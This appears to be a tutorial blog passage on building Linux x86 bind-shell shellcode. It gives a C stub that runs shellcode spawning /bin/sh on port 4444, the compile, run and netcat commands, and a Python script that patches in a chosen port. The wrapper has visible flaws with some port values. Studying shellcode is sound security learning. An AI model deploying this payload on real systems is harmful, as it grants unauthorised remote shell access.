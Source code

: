We add our opcodes to a stub tester C program:

{% highlight c %}

    #include<stdio.h>
    #include<string.h>
    
    unsigned char code[] = \
    "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
    "\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
    "\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
    "\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
    "\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
    "\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    "\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
    
    
    main()
    {
    
      printf("Shellcode Length:  %d\n", strlen(code));
    
      int (*ret)() = (int(*)())code;
    
      ret();
    
    }
{% endhighlight %}

Compile with: `gcc shellcode.c -o shellcode`
Run with: `./shellcode`
Connect with: `nc -nv 127.0.0.1 4444`

And it works! We get our shell. The shellcode is 122 bytes without
really trying to optimize. We can always go back and try to
optimize. We also need to update the program to make the port number
easily configurable.

Let's write a wrapper script to set our port. We just accept the port
as a command line argument to our script and interpolate it into our
shellcode and print out the result:

{% highlight python %}

    #!/usr/bin/python
    
    import sys
    
    if len(sys.argv) != 2:
      print "Fail!"
    
    port_number     = int(sys.argv[1])
    bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
    filtered        = [b for b in bts if b > 0]
    formatted       = ["\\x" + format(b, 'x') for b in filtered]
    joined          = "".join(formatted)
    
    shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
    shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
    shellcode+="\\x51\\x66\\x68" + joined + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"
    shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"
    shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
    shellcode+="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
    shellcode+="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"
    shellcode+="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"
    
    print(shellcode)

{% endhighlight %}
